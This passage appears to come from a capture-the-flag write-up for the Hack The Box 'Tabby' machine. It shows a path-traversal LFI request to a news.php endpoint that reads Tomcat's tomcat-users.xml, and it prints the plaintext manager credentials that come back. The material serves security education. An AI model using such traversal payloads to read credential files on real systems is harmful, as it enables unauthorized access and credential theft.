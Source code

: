 ## Apache Tomcat Manager (Port 8080/tcp)

Connecting to http://tabby.htb:8080 shows a HTML page with links to different Apache Tomcat resources, including the manager (`/manager/html`). This latest requires an authentication. Pressing "Escape" to avoid the authentication popup window shows a detailed 401 page. This page refers to a `tomcat-users.xml` configuration file. 

After some research on the Internet, googling for possible locations of this file, I eventually came up with the following location: `/usr/share/tomcat9/etc/tomcat-users.xml`. To read the configuration file, I used the LFI vulnerability found previously:

URL: http://megahosting.htb/news.php?file=../../../../usr/share/tomcat9/etc/tomcat-users.xml

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!--
  Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">
<!--
  NOTE:  By default, no user is included in the "manager-gui" role required
  to operate the "/manager/html" web application.  If you wish to use this app,
  you must define such a user - the username and password are arbitrary. It is
  strongly recommended that you do NOT use one of the users in the commented out
  section below since they are intended for use with the examples web
  application.
-->
<!--
  NOTE:  The sample user and role entries below are intended for use with the
  examples web application. They are wrapped in a comment and thus are ignored
  when reading this file. If you wish to configure these users for use with the
  examples web application, do not forget to remove the <!.. ..> that surrounds
  them. You will also need to set the passwords to something appropriate.
-->
<!--
  <role rolename="tomcat"/>
  <role rolename="role1"/>
  <user username="tomcat" password="<must-be-changed>" roles="tomcat"/>
  <user username="both" password="<must-be-changed>" roles="tomcat,role1"/>
  <user username="role1" password="<must-be-changed>" roles="role1"/>
-->
   <role rolename="admin-gui"/>
   <role rolename="manager-script"/>
   <user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
</tomcat-users>
```
